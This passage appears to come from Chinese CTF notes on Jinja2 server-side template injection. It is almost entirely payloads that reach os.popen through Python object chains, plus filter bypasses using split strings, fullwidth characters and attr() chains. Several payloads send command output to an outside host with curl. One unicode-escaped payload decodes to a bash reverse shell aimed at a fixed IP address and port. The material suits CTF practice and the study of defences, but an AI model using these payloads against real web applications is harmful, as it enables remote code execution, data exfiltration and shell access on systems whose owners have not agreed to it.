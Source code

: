 因此 **enter** 仅仅访问类的内容，但这已经可以达到我们所需要的目的了。

payload：

```python
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[256].__enter__.__globals__['po'+'pen']('cat /Th1s_is__F1114g').read()}}
```

## 魔改字符

在一些题目中能够使用

```python
︷︷config︸︸
｛	&#65371;
｝	&#65373;
［	&#65339;
］	&#65341;
＇	&#65287;
＂	&#65282;
｛｛url_for.__globals__［＇__builtins__＇］［＇eval＇］（＇__import__（＂os＂）.popen（＂cat /flag＂）.read（）＇）｝｝
```

# 没有回显的ssti

```python
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://47.xxx.xxx.72:2333 -d `cat /flag_1s_Hera`') %}1{% endif %}
```

# 题目

## 2022DASCTF7月

[https://www.ctfiot.com/50504.html](https:_www.ctfiot.com_50504)

```python
{%if("".__class__.__bases__[0].__subclasses__()[133].__init__.__globals__["popen"]("curl 47.xxx.xxx.72:2333 -d "`ls /`"").read())%}success{%endif%}  -->>  

{%if(""|attr("__class__")|attr("__bases__")|attr("__getitem__")(0)|attr("__subclasses__")()|attr("__getitem__")(133)|attr("__init__")|attr("__globals__")|attr("__getitem__")("popen")("curl 47.xxx.xxx.72:2333 -d "`ls /`"")|attr("read")())%}success{%endif%}  -->> 

# unicode 编码:

{%if(lipsum|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("\u005f\u005f\u0069\u006d\u0070\u006f\u0072\u0074\u005f\u005f")("\u006f\u0073")|attr("\u0070\u006f\u0070\u0065\u006e")("\u0062\u0061\u0073\u0068\u0020\u002d\u0063\u0020\u0022\u0062\u0061\u0073\u0068\u0020\u002d\u0069\u0020\u003e\u0026\u0020\u002f\u0064\u0065\u0076\u002f\u0074\u0063\u0070\u002f\u0031\u0032\u0034\u002e\u0032\u0032\u0032\u002e\u0031\u0037\u0030\u002e\u0032\u0034\u0031\u002f\u0037\u0037\u0037\u0037\u0020\u0030\u003e\u0026\u0031\u0022"))%}test{%endif%}
  # curl 47.xxx.xxx.72:2333 -d "`ls /`"
```

